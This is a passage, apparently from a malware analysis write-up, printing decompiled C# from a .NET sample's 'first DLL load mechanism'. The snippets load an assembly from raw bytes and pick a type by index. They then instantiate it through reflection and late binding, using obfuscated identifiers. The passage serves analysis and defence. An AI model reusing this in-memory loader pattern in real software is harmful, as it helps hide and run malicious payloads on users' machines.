```csharp

// Token: 0x06000035 RID: 53 RVA: 0x000031D4 File Offset: 0x000013D4
public object WeakReference(byte[] ApplicationIdentity)
{
  Assembly assembly = Assembly.Load(ApplicationIdentity);
  Type type = assembly.GetTypes()[10];
  MethodInfo o = Type.GetType("System.Activator").GetMethods()[2];
  LateBinding.LateCall(o, null, "Invoke", new object[]
  {
      null,
      new object[]
      {
          type,
          new object[]
          {
              StrongNameMembershipCondition.ReadOnlyList,
              StrongNameMembershipCondition.PropagationFlags,
              "PowerPoint_Tools"
          }
      }
  }, null, null);
  return 23;
}
```

### Malware 2.2 – First DLL load mechanism
```csharp
 public Home()
  {
      base.Load += this.Home_Load;
      this.Gdi = new LoaderInformation(Conversions.ToString(this.Observed(Deformatter.اسدفناهژحفبناهحسفبففا)));
      this.InitializeComponent();
  }


public object SafeFileMappingHandle(byte[] ApproximateSize)
{
  Activator.CreateInstance(((Assembly)typeof(Assembly).InvokeMember("Load", BindingFlags.InvokeMethod, null, null, new object[]
  {
      ApproximateSize
  })).GetTypes()[8], new object[]
  {
      IChannelInfo.ReflectedType,
      IChannelInfo.HResult,
      "TCMS"
  });
  return 1000;
}
```
